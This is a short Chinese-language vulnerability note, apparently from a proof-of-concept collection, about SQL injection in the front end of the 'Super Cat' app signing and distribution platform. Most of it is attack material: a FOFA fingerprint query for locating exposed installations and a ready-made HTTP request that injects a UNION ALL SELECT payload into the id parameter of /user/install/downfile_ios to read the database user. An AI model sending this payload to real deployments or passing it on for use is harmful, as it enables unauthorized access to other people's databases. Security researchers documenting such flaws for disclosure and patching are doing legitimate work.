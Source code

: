 # 超级猫签名APP分发平台前台存在SQL注入漏洞

超级猫超级签名分发平台是一个安卓苹果APP分发平台，能够对所有安卓苹果的APP进行签名分发，使所有自行开发的APP能够签名使用，包括登录注册等功能，还提供有SDK

## fofa

```java
"/themes/97013266/public/static/css/pc.css"
```

## poc

```yaml
GET /user/install/downfile_ios?id=') UNION ALL SELECT NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- - HTTP/1.1
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 127.0.0.1:81
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20240727115946636](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271159715.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/xTcnm_fFubFCYw4LhIXwkQ